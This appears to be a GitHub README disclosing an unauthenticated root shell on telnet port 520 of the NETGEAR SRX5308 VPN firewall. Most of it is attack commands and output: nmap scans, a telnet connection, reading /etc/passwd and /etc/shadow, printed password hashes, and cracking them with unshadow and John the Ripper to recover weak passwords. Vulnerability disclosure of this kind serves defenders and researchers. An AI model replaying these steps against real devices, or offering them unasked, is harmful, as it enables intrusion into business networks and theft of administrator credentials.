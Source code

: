 # NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308

<img src="https://raw.githubusercontent.com/0x01369/NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308/main/images.png" class="shrinkToFit" width="700" height="284">

* The NETGEAR ProSAFE SRX5308 Quad WAN Gigabit SSL VPN Firewall is perfect for even the most demanding business networks. The SRX5308 features a hardware-* accelerated data flow architecture that allows for 1 Gbps of stateful firewall throughput.

*Port Scan

* An Unencrypted Telnet 

* 520/tcp  open     telnet
* | fingerprint-strings: 
* |   GetRequest: 
* |     HTTP/1.0
* |     /tmp # GET / HTTP/1.0
* |   SIPOptions: 
* |     OPTIONS sip:nm SIP/2.0
* |     Via: SIP/2.0/TCP nm;branch=foo
* |     From: <sip:nm@nm>;tag=root
* |     <sip:nm2@nm2>
* |     Call-ID: 50000
* |     CSeq: 42 OPTIONS
* |     Max-Forwards: 70
* |     Content-Length: 0
* |     Contact: <sip:nm@nm>
* |     Accept: application/sdp
* |   tn3270: 
* |     ^@IBM-3279-4-E
* |_    ^Y/tmp # IBM-3279-4-E

* telnet 192.168.1.2 520

* cat /etc/passwd

root:x:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:x:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:x:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli

* cat /etc/shadow

daemon:*:13189:0:99999:7:::
root:CxqJynrkPOtP.:12374:0:99999:7:::
admin:m1LVojhaR1U5Y:11582:0:99999:7:::
guest:K7Vjga.vILkVA:11582:0:99999:7:::

* root@kali:~$ unshadow /home/root/Desktop/passwd /home/root/Desktop/shadow > /home/root/Desktop/status

root:CxqJynrkPOtP.:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:m1LVojhaR1U5Y:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:K7Vjga.vILkVA:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli

* root@kali:~$ john /home/root/Desktop/status

* Loaded 2 password hashes with 2 different salts (descrypt, traditional crypt(3) [DES 128/128 SSE2])

* Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist

* password (showid)

* password (guest)

* root@kali:~$ map -sS -sV 192.168.1.2

* Starting Nmap 7.91 ( https://nmap.org )

* PORT STATE SERVICE VERSION

* Starting Nmap 7.92 ( https://nmap.org ) at
* Nmap scan report for localhost
* Host is up (0.079s latency).
* Not shown: 65510 closed tcp ports (reset)
* PORT     STATE    SERVICE       VERSION

53/tcp   open     domain        dnsmasq 2.45
| dns-nsid: 
|_  bind.version: dnsmasq-2.45
80/tcp   open     http          Embedded HTTP Server (Cisco firewall http config)
|_http-title: Did not follow redirect to https://localhost/
|_http-server-header: Embedded HTTP Server.

443/tcp  open     ssl/https?
| ssl-cert: Subject: commonName=Netgear VPN Firewall /organizationName=Netgear Inc./countryName=US
| Not valid before: 2013-01-30T12:00:01
|_Not valid after:  2023-01-28T12:00:01
|_ssl-date: 2001-10-23T03:44:03+00:00; -20y54d07h26m45s from scanner time.

520/tcp  open     telnet
| fingerprint-strings: 
|   GenericLines: 
|     /tmp # 
|     /tmp # 
|     /tmp #
|   GetRequest: 
|     HTTP/1.0
|     /tmp # GET / HTTP/1.0
|     /bin/sh: GET: not found
|     /tmp # 
|     /tmp #
|   Help: 
|     /tmp # HELP
|     /bin/sh: HELP: not found
|     /tmp #
|   NCP, NULL: 
|     /tmp #
|   RPCCheck: 
|     ^@^@(r
|   SIPOptions: 
|     OPTIONS sip:nm SIP/2.0
|     Via: SIP/2.0/TCP nm;branch=foo
|     From: <sip:nm@nm>;tag=root
|     <sip:nm2@nm2>
|     Call-ID: 50000
|     CSeq: 42 OPTIONS
|     Max-Forwards: 70
|     Content-Length: 0
|     Contact: <sip:nm@nm>
|     Accept: application/sdp
|     /tmp # OPTIONS sip:nm SIP/2.0
|     /bin/sh: OPTIONS: not found
|     /tmp # Via: SIP/2.0/TCP nm;branch=foo
|     /bin/sh: Via:: not found
|     /tmp # From: <sip:nm@nm>;tag=root
|     /bin/sh: syntax error: unexpected ";"
|     /tmp # To: <sip:nm2@nm2>
|     /bin/sh: syntax error: unexpected newline
|     /tmp # Call-ID: 50000
|     /bin/sh: Call-ID:: not found
|     /tmp # CSeq: 42 OPTIONS
|     /bin/sh: CSeq:: not found
|     /tmp # Max-Forwards: 70
|     /bin/sh: Max-Forwards:: not found
|     /tmp # Content-Length: 0
|     /bin/sh: Content-Length:: not found
|     /tmp # Contact: <sip:nm@nm>
|     /bin/sh: syntax error: unexpected newline
|     /tmp # Accept: application/sdp
|     /bin/sh: Accept:: not found
|     /tmp # 
|     /tmp #
|   tn3270: 
|     ^@IBM-3279-4-E
|_    ^Y/tmp # IBM-3279-4-E

7911/tcp open     omapi         ISC (BIND|DHCPD) OMAPI
9725/tcp open     unknown

Host script results:
|_clock-skew: -7359d08h26m45s










